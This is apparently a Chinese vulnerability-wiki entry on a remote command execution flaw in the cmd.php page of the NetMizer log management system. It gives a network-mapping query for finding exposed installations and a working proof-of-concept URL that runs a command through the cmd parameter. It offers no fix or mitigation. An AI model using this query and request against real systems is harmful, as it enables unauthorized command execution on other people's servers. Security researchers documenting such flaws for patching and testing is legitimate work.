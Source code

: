 # NetMizer 日志管理系统 cmd.php 远程命令执行漏洞

## 漏洞描述

NetMizer 日志管理系统 cmd.php中存在远程命令执行漏洞，攻击者通过传入 cmd参数即可命令执行

## 漏洞影响

<a-checkbox checked>NetMizer 日志管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="NetMizer 日志管理系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1628834857867-6694d560-2345-49e8-9460-2296c316a7a3-20220314133236391.png)

验证POC

```python
/data/manage/cmd.php?cmd=whoami
```

![img](/assets/PeiQi-Wiki/img/1637918595617-0674c271-9040-4d74-acc4-1e0c1d71ab7c.png)



若有收获，就点个赞吧